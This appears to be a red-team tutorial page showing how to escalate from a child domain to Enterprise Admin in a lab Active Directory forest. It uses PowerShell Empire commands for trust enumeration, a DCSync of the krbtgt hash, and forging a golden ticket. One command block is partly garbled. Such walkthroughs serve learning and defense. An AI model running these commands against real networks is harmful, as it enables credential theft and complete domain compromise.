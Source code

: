 From DC-RED, let's check any domain trust relationships - we see that the `red.offense.local` is a child domain, which is automatically trusting and trusted \(two way trusts\) with/between `offense.local`:

```text
usemodule situational_awareness/network/powerview/get_domain_trust
```

![](../../.gitbook/assets/empire-trusts.png)

### From DA to EA

We will now try to escalate from DA in red.offense.local to EA in offense.local. For this, we first need to create a golden ticket for `red.offense.local` and forge it to make us become an EA in offense.local.

First of, getting a SID of a `krbtgt` user account in `red.offense.local`:

```csharp
(Empire: powershell/situational_awareness/network/powerview/get_domain_trust) > usemodule powershell/management/user_to_sid
(Empire: powershell/management/user_to_sid) > set Domain offense.local
(Empire: powershell/management/user_to_sid) > set User krbtgt
(Empire: powershell/management/user_to_sid) > run
```

![](../../.gitbook/assets/empire-krbtgt-sid.png)

After that, a password hash of the `krbtgt` accoutn in of the compromised `DC-RED`:

```text
(Empire: powershell/management/user_to_sid) > usemodule powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user red\krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```

![](../../.gitbook/assets/empire-krbtgt-hash.png)

### Golden Ticket for Root Domain

We can now generate a golden ticket for `offense.local\Domain Admins`since we have the SID of the `offense.local\krbtgt` and the hash of `red.offense.local\krbtgt`:

```csharp
usemodule powershell/credentials/mimikatz/golden_ticket
(Empire: powershell/credentials/mimikatz/golden_ticket) > set user hakhak
(Empire: powershell/credentials/mimikatz/golden_ticket) > 
cr
(Empire: powershell/credentials/mimikatz/golden_ticket) > set CredID 8
(Empire: powershell/credentials/mimikatz/golden_ticket) > run
```

![](../../.gitbook/assets/empire-golden-ticket.png)

The `CredID` property in the dcsync module comes from the Empire's credential store which previously got populated by our mimikatz'ing:
